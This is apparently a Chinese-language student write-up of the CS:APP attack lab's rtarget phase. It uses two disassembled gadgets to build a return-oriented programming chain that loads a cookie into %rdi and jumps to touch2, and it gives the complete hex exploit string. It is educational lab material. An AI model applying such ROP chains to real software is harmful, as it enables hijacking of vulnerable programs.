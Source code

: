 我们要做的事情是：

第一，将%rdi设置为cookie

第二，执行touch2

转化为汇编程序即：

```assembly
movq $0x59b997fa %rdi
pushq $0x4017ec
ret
```

现在要输入touch2函数的参数，即movq $data, %rdi，有两种方法

第一，直接执行movq $data, %rdi

第二，传入寄存器的数据压栈，再出栈送入相应的寄存器，然后执行touch2

反汇编rtarget程序，gadget在start_farm和end_farm之间，找到两个可用的`gadget`

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

```assembly
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq
```

58 90 c3即

```assembly
4019ab: 58 popq %rax
4019ac: 90 nop
4019ad: c3 retq
```

48 89 c7 c3即

```assembly
4019a2: 48 89 c7 movq %rax %rdi
4019a5: c3       retq
```

因此输入的数据为

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
ab 19 40 00      <- 跳转到0x4019ab执行popq %rax，同时rsp + 8
00 00 00 00      
fa 97 b9 59      <- retq执行后rsp + 8指向本一行，将该数赋给rax后rsp + 8
00 00 00 00      
a2 19 40 00      <- 0x4019ad的retq执行前rsp指向该行，执行后跳转至0x4019a2 
00 00 00 00
ec 17 40 00      <- 0x4019a5的retq执行前rsp指向该行，执行后跳转至touch2
00 00 00 00
```
